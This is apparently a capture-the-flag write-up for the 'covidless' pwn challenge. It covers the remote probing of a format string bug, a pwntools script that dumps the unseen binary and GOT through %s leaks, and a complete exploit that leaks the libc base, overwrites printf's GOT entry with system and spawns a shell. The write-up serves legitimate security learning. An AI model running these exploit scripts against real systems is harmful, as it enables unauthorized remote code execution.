 ```yaml
---
title: "[pwn] covidless"
categories:
  - CTF/pwn
tags:
  - fmtstr
  - overwriteGOT
---
```


The only info provided was ip addr & port number. Without binary to download, then i try it, the binary has format string vuln.

```bash
$ nc covidless.insomnihack.ch 6666
%8$p
Your covid pass is invalid : 0x5379334b5f763172
try again ..

%9$p
Your covid pass is invalid : 0x5f74304e6e34635f
try again ..
```

```python
#!/usr/bin/python3
from pwn import *
context.log_level='critical'

for i in range(1, 100):
    r = remote('covidless.insomnihack.ch', '6666')

    # r.sendline(f'%{i}$s')   #1
    r.sendline(f"%{i}$016lx") #2

    data = r.recvline()[29:-1]
    if(data != b'(null)'):
        print(i, data)
    r.close()
```

with `#1` i obtain some info

```bash
59 b'./covidless'
61 b'REMOTE_HOST=::ffff:14.177.85.188'
69 b'PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'
73 b'LD_PRELOAD=./libc6_2.27-3ubuntu1_amd64.so'
84 b'\x7fELF\x02\x01\x01'
```

with #2 output from 2 consecutive runs, it has some same

```bash
1 b'0000000000400934'
6 b'74346e3143633456'
7 b'505f44315f6e6f31'
8 b'5379334b5f763172'
9 b'5f74304e6e34635f'
30 b'0000000000400890' <- A return address that points into
35 b'000000000040075a'    the .text segment of the program
```

We can assume that PIE is off (the `.text` segment addresses are the same each time).

The .text segment likely starts at `0x400000`

```python
# dump.py
#!/usr/bin/python3
from pwn import *

binary = b""
leak = b""
io = remote('covidless.insomnihack.ch', 6666)
addr = 0x400000 # 0x601000
while addr != 0x402000:# 0x602000
    if '0a' in hex(addr):
        leak = b"0"
        binary += b'\0'
    else:
        payload = b"%13$sAAA"+p64(addr)
        io.sendline(payload)
        io.recvuntil(b" : ")
        leak = io.recvuntil(b"AAA",drop=True)
        if leak == b"":
            leak = b"0"
            binary += b'\0'
        else:
            binary += leak
	print(hex(addr), '0x' + leak[::-1].hex())
    with open('bin','wb+') as f:
        f.write(binary)
    addr += len(leak)

$ ./dump.py > log.txt
```

look at import tab in ida, the GOT located at offset `0x601000` run it again with new addr

log.txt + [symbols on libc](https://libc.blukat.me/d/libc6_2.27-3ubuntu1_amd64.symbols) :

```bash
0x601000 0x600e20
0x601008 0x7fddfa0fe170
0x60100e 0x30
0x60100f 0x30
0x601010 0x7fddf9eea8f0
0x601016 0x30
0x601017 0x30
0x601018 0x7fddf9b629c0 -> _IO_puts
0x60101e 0x30
0x60101f 0x30
0x601020 0x4005f6
0x601028 0x7fddf9b46e80 -> _IO_printf
0x60102e 0x30
0x60102f 0x30
0x601030 0x7fddf9c70f50 -> _snprintf
0x601036 0x30
0x601037 0x30
0x601038 0x7fddf9b60b20 -> _IO_fgets, fgets
0x60103e 0x30
0x60103f 0x30
0x601040 0x7fddf9b8be70 -> __snprintf_chk
0x601046 0x30
0x601047 0x30
0x601048 0x7fddf9b607e0 -> _IO_2_1_stdin_
0x601060 0x7fddf9ece760
0x601071 0x7fddf9ecda
```

---

## Strategy

1. Leak the glibc base addr from GOT
2. Overwrite the GOT entry of `printf` with `system` using a format str
3. Get a shell

```python
# xpl.py
#!/usr/bin/env python3
from pwn import *

uu64 = lambda x : u64(x.ljust(8, b'\x00'))

def start(argv=[], *a, **kw):
    return remote('covidless.insomnihack.ch', 6666, *a, **kw)

context.clear(arch = 'amd64')
libc = ELF('./libc6_2.27-3ubuntu1_amd64.so')
# warning/info/debug
context.log_level = 'info'

def get_returned_value():
    data = io.recvline().replace(b"\ntry again ..\n\n", b"")[29:]
    return data

def read_address(addr):
    payload = b"%14$s".ljust(16, b",")
    payload += p64(addr)
    io.sendline(payload)

    data = get_returned_value()
    print(data)
    return data.split(b',')[0]

globalOffsetTable = {
    'puts': 0x601018,
    'printf': 0x601028,
}
io = start()

# lazy linking for puts()
io.sendline(b'')
io.recvuntil(b'\n\n')

libc.address = uu64(read_address(globalOffsetTable['puts'])) - libc.sym.puts
log.info("base = %#x", libc.address)

payload_writes = {
    globalOffsetTable['printf']: libc.sym['system']
}
io.sendline(fmtstr_payload(12, payload_writes, write_size='short'))
io.sendline(b'/bin/sh')
io.interactive()
```
